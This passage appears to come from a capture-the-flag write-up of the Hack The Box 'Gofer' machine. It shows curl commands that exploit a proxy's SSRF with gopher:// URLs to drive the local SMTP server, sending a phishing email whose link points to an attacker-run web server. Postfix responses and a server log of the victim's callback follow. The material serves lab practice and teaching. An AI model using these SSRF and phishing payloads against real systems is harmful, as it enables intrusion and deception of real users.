 Trying for real for the first time
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%25200x7f000001%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
550 5.1.1 <jhudson@gopher.htb>: Recipient address rejected: 127.0.0.1
554 5.5.1 Error: no valid recipients
221 2.7.0 Error: I can break rules, too. Goodbye.
1
```

Ah interesting we even get back the errors straight from postfix, so maybe we can just use the actual address of the server? Ah, no same error... Arf the domain is `gofer.htb` on `gopher.htb`, nevermind
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as CEBD5816D
221 2.0.0 Bye
1
```

And yes we get a callback from Jocelyn on 225
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 19:51:00] "GET /index.html%22 HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 19:51:00] "GET / HTTP/1.1" 200 -
```
